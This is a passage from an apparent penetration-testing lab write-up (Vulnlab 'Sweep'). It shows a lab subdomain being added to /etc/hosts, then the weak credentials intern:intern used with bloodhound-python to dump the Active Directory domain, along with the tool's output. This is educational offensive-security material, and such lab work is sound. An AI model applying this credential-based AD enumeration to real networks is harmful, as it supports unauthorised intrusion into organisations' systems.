 While enumerating we also found a `subdomain` there.

![](images/2024-02-29_13-15_lansweeper_subdomain.png)

Which we added to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.118.121   sweep.vl
10.10.118.121   inventory.sweep.vl
```

## Active Directory Enumeration

Since it is always good to run something in the background, we started dumping the `Active Directory` by using the credentials `intern:intern` with `bloodhound-python`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ bloodhound-python -d 'sweep.vl' -dc 'inventory.sweep.vl' -u 'intern' -p 'intern' -ns 10.10.118.121 -c all --zip
INFO: Found AD domain: sweep.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 17 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: inventory.sweep.vl
INFO: Done in 00M 06S
INFO: Compressing output into 20240229140240_bloodhound.zip
```
